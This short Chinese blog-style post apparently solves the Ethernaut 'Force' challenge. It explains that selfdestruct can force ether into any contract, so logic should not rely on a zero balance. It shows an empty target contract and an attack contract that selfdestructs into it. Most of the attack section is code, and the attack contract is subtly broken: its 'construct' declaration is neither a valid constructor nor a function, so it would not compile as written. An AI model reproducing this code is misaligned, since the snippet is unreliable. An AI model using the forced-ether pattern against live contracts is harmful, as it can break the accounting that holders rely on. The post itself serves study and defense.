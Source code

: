 ```yaml
---
title: 合约攻击-Force
date: 2025-08-14 14:28:16
tags: solidity
categories: Web3
---
```


在 solidity 中，如果一个合约想要接收 ether，fallback 必须设置为 payable

但是并没有什么办法可以组织攻击者通过自毁的方法向合约发送 ether，所以不要将任何合约逻辑基于 `address(this).balance == 0` 之上<!-- more -->

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```

```solidity
// 攻击合约

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
  construct(address payable target) payable {
    require(msg.value > 0, "You need to send some ether to attack!");
    selfdestruct(target);
  }
}

```
